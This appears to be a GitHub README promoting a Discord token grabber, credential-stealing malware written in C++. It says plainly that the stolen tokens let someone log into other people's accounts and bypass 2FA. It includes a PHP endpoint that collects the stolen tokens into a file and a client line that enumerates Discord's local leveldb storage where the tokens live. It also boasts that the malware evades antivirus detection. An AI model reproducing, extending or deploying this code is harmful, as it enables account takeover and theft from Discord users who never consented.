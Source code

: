 # Discord Token Grabber
A Discord token grabber written in C++.

This is a "token" or authorization key finder for the platform "Discord".

You can use "tokens" to login to other people's accounts with the authorization key bypassing 2fa.

# Web
The web code is very basic and tokens can be accessed by anyone so I would recommend changing it.
```php
<?php

if(isset($_GET["t"])){
	$file = fopen("tokens.txt", "a");

	$content = file_get_contents("tokens.txt");

	if(strpos($content, $_GET["t"]) === false){
		fwrite($file, $_GET["t"].'\n');
	}
	fclose($file);
}

?>

```

# Client
This code is not very well written as I'm using C++/14 and filesystem is still experimental.
As you can see here it's a hardcoded solution but it works fine for this purpose.
```cpp
auto files = split(exec("cd %appdata%/discord/Local Storage/leveldb && dir /n /b *"), "\n");
```

# Detection
Since it's fresh and not copied it is currently undetected

![Detection](https://antiscan.me/images/result/huIT9opQ9Off.png)
